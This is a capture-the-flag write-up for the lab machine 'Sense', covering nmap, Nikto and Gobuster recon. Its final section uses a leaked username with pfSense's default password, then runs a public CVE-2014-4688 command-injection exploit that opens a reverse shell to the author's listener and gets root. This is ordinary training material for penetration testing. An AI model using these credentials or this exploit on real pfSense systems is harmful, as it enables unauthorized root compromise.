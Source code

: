 # Sense

## Information Gathering
Sense<br>
10.10.10.60<br>

Software Versions
- lighttpd 1.4.35
- pfsense 2.1.3-RELEASE
- FreeBSD 8.3-RELEASE-p16

## Enumeration
Of course, start with an nmap scan.
```bash
# Nmap 7.92 scan initiated Sun Feb 20 22:47:37 2022 as: nmap -p- -A -oN nmap/sense.nmap -Pn 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.028s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), FreeBSD 8.X (85%), OpenBSD 4.X (85%)
OS CPE: cpe:/o:freebsd:freebsd:8.1 cpe:/o:openbsd:openbsd:4.3
Aggressive OS guesses: Comau C4G robot control unit (92%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%), OpenBSD 4.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.72 ms 10.10.14.1
2   27.73 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 20 22:50:14 2022 -- 1 IP address (1 host up) scanned in 157.11 seconds

```
Taking a look at the HTTP server automatically redirects you to the HTTPS server. I'll start with a Nikto scan:
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.60
+ Target Port: 443
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie cookie_test created without the secure flag
+ GET Cookie cookie_test created without the httponly flag
+ GET Multiple index files found: /index.php, /index.html
+ GET Hostname '10.10.10.60' does not match certificates names: Common
+ OPTIONS Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 

```
And a Gobuster scan
```bash
/index.html           (Status: 200) [Size: 329]
/help.php             (Status: 200) [Size: 6689]
/index.php            (Status: 200) [Size: 6690]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/system.php           (Status: 200) [Size: 6691]
/license.php          (Status: 200) [Size: 6692]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/reboot.php           (Status: 200) [Size: 6691]
/interfaces.php       (Status: 200) [Size: 6695]
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]

```

## Exploitation
Looking at the Gobuster results, there is a file called "system-users.txt". Inside this file leaks a user and tells us that the password is the default password for the company. Doing a bit of Googling reveals that the default password for pfsense is "pfsense". <b>rohit:pfsense</b> authenticates us. Once we are logged in, a bunch of system info is given to us including the version of pfsense and the version of FreeBSD being used.<br> 
A CVE is associate with this webapp: CVE-2014-4688. There is also this PoC: https://www.exploit-db.com/exploits/43560. Running this script gives a root shell. Don't forget to start your netcat listener.
```bash
/command_injection.py --rhost 10.10.10.60:443 --lhost 10.10.14.122 --lport 1337 --username rohit --password pfsense

# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```